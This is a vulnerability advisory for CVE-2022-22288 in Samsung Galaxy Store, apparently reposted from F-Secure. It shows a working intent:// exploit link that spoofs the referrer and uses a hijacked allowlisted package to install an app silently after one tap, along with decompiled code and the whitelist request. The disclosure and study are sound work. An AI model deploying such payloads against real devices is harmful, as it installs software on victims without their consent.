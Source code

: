 ```yaml
---
layout: cve
title: "Samsung Galaxy Store Whitelist Abuse"
cve_id: "CVE-2022-22288"
date: 2022-01-01
reference: 
  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22288
  - https://security.samsungmobile.com/serviceWeb.smsb?year=2022&month=1
description: "Improper authorization vulnerability in Galaxy Store prior to 4.5.36.5 allows remote app installation of the allowlist."
---
```


#### Original post: [https://labs.f-secure.com/advisories/samsung-galaxy-one-tap-install-malicious-application/](https://labs.f-secure.com/advisories/samsung-galaxy-one-tap-install-malicious-application/)

|    **Product**    | Galaxy Store prior to version 4.5.36.5 |
|    **Severity**   |                  High                  |
| **CVE Reference** |             CVE-2022-22288             |
|      **Type**     |      Automatic Application Install     |

## Description

F-Secure looked into exploiting the Samsung Galaxy S21 device for Austin Pwn2Own 2021. The Galaxy App Store application contained an issue with how it handled browsable intents. Additionally, it was possible to upload a malicious application to the Galaxy App Store and have Samsung host the application. If a user was convinced to tap an attacker controlled hyperlink, the uploaded malicious application would have been automatically installed onto the victim's device without consent. 

## The Exploit

The following hyperlink could have been used to abuse a browsable intent in the Samsung Galaxy App Store application. This link would install a malicious application that has hijacked the namespace of a whitelisted application on the Samsung App Store. An attacker can host this link from any web server:

```
<a id="yayidyay" rel="noreferrer" href="intent://apps.samsung.com/appquery/appDetail.as?
appId=live.hatch.russa&directInstall=true&installReferrer=yayreferreryay&directOpen=true&
simpleMode=true#Intent;action=android.intent.action.VIEW;package=com.sec.android.app.samsungapps;
scheme=http;S.android%2eintent%2eextra%2eREFERRER_NAME=http://com.sec.android.app.samsungapps;end">
YAYPOCYAY</a>
```

## Technical Details

The malicious application that would have been installed is Boops Boops, a re-skinned Drozer application. This issue occurs due to a bug in the Samsung Galaxy App Store (`com.sec.android.app.samsungapps`) class `com.sec.android.app.samsungapps.deeplink.DetailPageDeepLink` method `putDetailCommonExtra`:

```
public void putDetailCommonExtra(Context context) {
    ...
    if (isDirectInstall() && appManager.enableDDI(getSender(), getDetailID(), DeeplinkManager.getInstance().getInternalDeeplink())) {
        this.intent.putExtra(DeepLink.EXTRA_DEEPLINK_DIRECT_INSTALL, isDirectInstall());
        this.intent.putExtra("sender", getSender());
    }
```

* `isDirectInstall` is taken from the browsable intent query parameter `directInstall` and returns either True or False
* `getSender` is either the package name or the website URL that sent the browsable intent, which is retrieved from the intent string extra `sender` (this intent extra is added or modified in intents by the Android OS when an intent is sent from one application to another)
* `getDetailID` is taken from the browsable intent query parameter `appId`
* `enableDDI` code is below:

```
public boolean enableDDI(String sender, String appId, boolean isInternalDeeplink) {
    if (isDDITestMode()) {
        return true;
    }
    if ((!isGalaxyStore(sender) || !isInternalDeeplink) && !isWhiteListAppForOneClick(sender, appId)) {
        return false;
    }
    return true;
}
```

* `isGalaxyStore` returns true if the intent sender package name was `com.sec.android.app.samsungapps` or if the website that sent the browsable intent was `http://com.sec.android.app.samsungapps`
* `isWhiteListAppForOneClick` returns true if the target package name is in a Samsung controlled whitelist

The intent sender package name can be set by an attacker via the intent string extra `android.intent.extra.REFERRER_NAME=com.sec.android.app.samsungapps`. Without this intent string extra, `isGalaxyStore` would return false since the intent sender would have been a different value, such as the attacker's website URL.

The Samsung controlled whitelist is obtained by the Galaxy Store application via the following POST request:

```
POST /ods.as?reqId=2355 HTTP/1.1
Accept: image/webp
Content-Type: text/plain; charset=UTF-8
User-Agent: Dalvik/2.1.0 (Linux; U; Android 11; SM-G991B Build/RP1A.200720.012)
Host: us-odc.samsungapps.com
Connection: close
Accept-Encoding: gzip, deflate
Content-Length: 952
 
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<SamsungProtocol networkType="0" version2="3" lang="EN" openApiVersion="30" deviceModel="SM-G991B" deviceMakerName="samsung" 
deviceMakerType="0" mcc="310" mnc="00" csc="XME" odcVersion="4.5.30.5" scVersion="1000000" 
storeFilter="themeDeviceModel=SM-G991B_TM||OTFVersion=11010001||gearDeviceModel=SM-G991B_SM-R800||gOSVersion=4.0.0"
supportFeature="ARW||AOD" version="6.8" filter="1" odcType="01" cacheVersion="1" systemId="<redacted>" sessionId="<redacted>" 
logId="<redacted>" deviceFeature="locale=en_US||abi32=armeabi-v7a:armeabi||abi64=arm64-v8a" userMode="0">
<request name="whiteAppInfo" id="2355" numParam="4" transactionId="<redacted>"><param name="accountCountry">
USA</param><param name="guestDownloadInfo">Y</param><param name="accountMcc">310</param><param name="requestTypeCode">0</param>
</request></SamsungProtocol>
```

The whitelist is found in the response parameter popupDownloadAppList:

```
...
<value name="popupDownloadAppList">mobi.abcmouse.samsung||com.audible.application.samsung||com.booking.forsamsung||com.cnn.mobile.android.phone|
|com.golfnow.android.samsung.teetimes||com.scribd.app.samsung||com.shazam.android||com.shutterfly.samsung||com.skimble.workouts||me.swiftgift.swiftgift.samsung|
|com.weather.samsung||com.touchofmodern.samsung||com.tubitv.samsung||com.ua.shop.samsung||com.yelp.android||com.aaptiv.android.samsung|
|com.lifesum.madeforsamsung||com.getliner.Liner||com.vsco.cam.samsung||com.rosettastone.madeforsamsung.courseplayer||com.aita||com.degoo.android.samsung|
|com.adobe.reader||com.samsung.m4sscreen||com.adobe.premiererush.videoeditor.samsung||live.hatch.russa||jp.gocro.smartnews.android|
|com.getsomeheadspace.android||com.viewbug.viewbug||com.postmates.android||com.getaround.android</value>
...
```

It was found that the package name `live.hatch.russa` was on the Samsung white list, but that package did not exist on the Samsung App Store itself. F-Secure deployed their custom re-skinned Drozer application called "Boops Boops" to the Samsung App Store with the package name `live.hatch.russa`:

<div align="center">
    <img src="/assets/cves/cve-2022-22288_1.png">
</div>

Source code for the Boops Boops application can be found here: [https://github.com/Yogehi/boops-boops-android-agent](https://github.com/Yogehi/boops-boops-android-agent)

Source code for the Boops Boops Docker Container which can be used to interact with Boops Boops can be found here: [https://github.com/Yogehi/boops-boops-docker-container](https://github.com/Yogehi/boops-boops-docker-container)


## Remedial Action

Samsung has released the Galaxy Store version 4.5.36.5 which addresses this issue. Additionally, F-Secure has attempted to re-upload Boops Boops with the package name `live.hatch.russa` several times to the Galaxy Store, and it now gets taken down due to a copyright warning.

<div align="center">
    <img src="/assets/cves/cve-2022-22288_2.png">
</div>

Users should still update their Galaxy Store application to the latest version available.

## Credits

This issue was discovered by Ken Gannon.

## Timeline

|    **Date**    | **Summary** |
|   01/11/2021   | Issue disclosed to Samsung Mobile Security |
|   01/11/2021   | Issue assigned to a Samsung Security Analyst |
|   01/12/2021   | Samsung confirms the vulnerability and rates it as a critical risk issue |
|   03/01/2022   | Patch released, Samsung initiates process for bug bounty reward |
|   04/01/2022   | CVE Assigned |
|   04/01/2022   | Advisory Published |